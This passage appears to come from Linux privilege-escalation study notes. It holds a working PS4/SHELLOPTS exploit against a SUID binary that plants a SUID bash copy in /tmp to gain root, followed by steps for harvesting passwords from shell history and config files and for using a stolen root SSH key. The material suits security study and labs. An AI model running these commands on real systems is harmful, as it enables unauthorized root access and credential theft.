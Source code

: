 ### Exploit

Run the binary with a crafted `PS4`:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2 
```

* This sets `PS4` to execute a command during each debug trace.
* It copies `/bin/bash` to `/tmp/rootbash` and sets the SUID bit.

Then run the created binary:

```bash
/tmp/rootbash -p
```

This grants a root shell.

Notes

* Only works on **Bash < 4.4**.
* The target binary must use Bash in **debug mode** (`#!/bin/bash -x` or equivalent).

---

## 15. Passwords & Keys - History Files

* If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

```bash
cat ~/.*history | less
```

---

## 16. Passwords & Keys - Config Files

* Look for plaintext credentials in:

  * `~/.mysql_history`
  * `.bashrc`
  * `.env`
  * `.git-credentials`, etc.

---

## 17. Passwords & Keys - SSH Keys

* This step involves grabbing the SSH private key file(eg. id_rsa) of the user (root) which enables us to connect to the target machine via SSH without needing a password.

* We need to modify the permission of the key file

```bash
chmod 600 root_key
```
